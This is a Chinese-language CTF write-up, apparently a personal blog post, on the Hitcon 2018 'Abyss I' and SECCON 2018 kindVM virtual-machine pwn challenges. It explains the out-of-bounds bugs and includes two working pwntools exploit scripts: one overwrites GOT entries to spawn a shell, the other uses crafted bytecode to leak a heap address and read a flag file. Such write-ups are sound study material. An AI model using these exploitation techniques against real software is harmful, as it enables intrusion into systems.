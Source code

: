 ```yaml
---
title: Abyss
date: 2019-11-19 15:37:17
tags: VM
---
```

Hitcon CTF 2018 - Abyss I
<!--more-->
# Prelogue
一直来感觉Hitcon的题目挺好的于是通过`Abyss`来学习`Pwn`中的虚拟机相关知识.
`Abyss`相关附件：[attachment][0]
其他附件：[attachmen][1]
本文主线为`Abyss`,穿插着学习VM的记录
# challenge
解压后有9个文件其中主要部分是`user.elf`,`hypervisor.elf`,`kernel.bin`.
`kernel.bin`: 一个小型内核.
`hypervisor.elf`: 虚拟机监视器用来联通`KVM`和`user.elf`
`user.elf`: 一个普通的的程序.

# user.elf
比较简单的第一个`flag`基本的题目只要逆向完了会发现`swap`还有`rot`可能导致越界访问..然后就可以通过加加减减为所欲为了...我改了以下几个got域
1. `got_printf`为`main`
2. `got_strlen`为`system`

```python
from pwn import *
context.log_level='debug'
context.arch='amd64'
p=process('./user.elf')
pay="{}\x5c.\x5c@@.@{}:1:{}2:3:1;4292866203+0;3;85984+2;{}3;4294900624+2;.".format(0x100000000-3,"%"*9,"%"*6,"%"*10)
#gdb.attach(p,'''
#b *0x000555555555113
#b * 0x000555555554D94
#''')
p.sendlineafter("\n",pay)
pay="/bin/sh\x00"
p.sendlineafter("\n",pay)
p.interactive('n132>')
```
逆向起来没什么难度,如果漏洞在虚拟机层面的一般都是内存非法访问主要关注的对象是`store`,`fetch`之类操作有没有越界访问但是这题问题在`swap`和`rot`,当栈指针在栈区域地步的时候`swap`会导致越界访问.

类似漏洞的一题`SECCON 2018 kindVM`我也放在文件夹中，问题出在类型错误导致越界访问，比较简单逆完了基本就可以做出来了我这里放上exp
```python
from pwn import *
context.log_level='debug'
context.arch='amd64'
p=process('./kindvm')
p.sendlineafter(": ","n132")

pay="\x01\x00\xff\xd8\x08\x00"
#load buf-0x28 & out reg[0]===> leak heap
pay+="\x07\x01\x08\x04\x87\x7b"
#set reg[0]=0x0804877b
pay+="\x02\xff\xe4\x01"
#store buf-0x28+0xc
pay+="\x06"
p.sendlineafter(": ",pay)
#do it again
p.readuntil("out] ")
heap=int("0x"+p.readuntil("(")[:-1],16)-0x28
log.warning(hex(heap))

p.sendlineafter(": ","./flag")
#gdb.attach(p,'b *0x80487C0')
off=0x10000-(heap+0x38-0x804b028)
context.endian   = 'big'
pay="\x07\x00{}".format(p32(heap+0x8a0))
#set reg[0]->reg[2]
pay+="\x02\xff\xdc\x00"
#set banner->reg[2]
pay+="\x06"
p.sendlineafter(": ",pay)
p.interactive('n132>')
#[1] load:	opcode(1) reg(1) offset(2)
#[2] store:	opcode(1) offset(2) reg(1)
#[3] move: 	opcode(1) reg(1) reg(1)
#[4] add:	opcode(1) reg(1) reg(1)
#[5] sub:	opcode(1) reg(1) reg(1)
#[6] halt:	opcode(1)
#[7] in:	opcode(1) num(4)
#[8] out:	opcode(1) reg(1)
```

# ..
待续.

[0]: https://github.com/david942j/ctf-writeups/tree/master/hitcon-2018/abyss
[1]: https://github.com/n132/Watermalon/tree/master/vm-pwn